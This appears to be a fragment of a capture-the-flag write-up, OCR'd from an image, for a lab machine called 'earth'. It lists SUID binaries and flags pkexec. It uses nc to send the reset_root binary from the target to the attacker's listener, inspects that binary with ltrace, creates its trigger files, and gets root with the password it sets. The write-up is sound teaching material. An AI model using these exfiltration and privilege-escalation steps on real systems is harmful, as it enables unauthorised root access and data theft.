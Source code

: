 ```
  4352689     24 -rwsr-xr-x   1 root     root        24536 Jun  3  2021 /usr/lib/polkit-1/polkit-agent-helper-1
bash-5.1$ 
```

we see the pkexec, a knowed critical one and /usr/bin/reset_root

we cannot execute "/usr/bin/reset_root"
because we have not all the triggers 

from the target
```
bash-5.1$ nc 192.168.100.4 443 < /usr/bin/reset_root
bash-5.1$ 
```
to my pc
```
h/s4vitar/content$ nc -nlvp 443 >reset_root
listening on [any] 443 ...
connect to [192.168.100.4] from (UNKNOWN) [192.168.100.59] 42068
```
we are looking with ltrace what is happening on instruction levels


So there are no triggers.. we must create the triggers(folders), because this are static values, it doesnt change when we operate the command
```
ltrace ./reset_root
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                                           = 38
access("/dev/shm/kHgTFI5G", 0)                                                                        = -1
access("/dev/shm/Zw7bV9U5", 0)                                                                        = -1
access("/tmp/kcM0Wewe", 0)                                                                            = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                                           = 44
+++ exited (status 0) +++
```

We can now execute the file and the password for root is Earth
```
CHECKING IF RESET TRIGGERS PRESENT...                                                                                                                                 
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth                                                                                                         
bash-5.1$ su                                          
Password:(Earth)                                               
[root@earth /]#          
```

pwdx (da datos sobre donde se esta montando un proceso, puede ser un servidor por ejemplo, montado en python. Y con este comando te permite saber desde que ruta se esta ejecutando)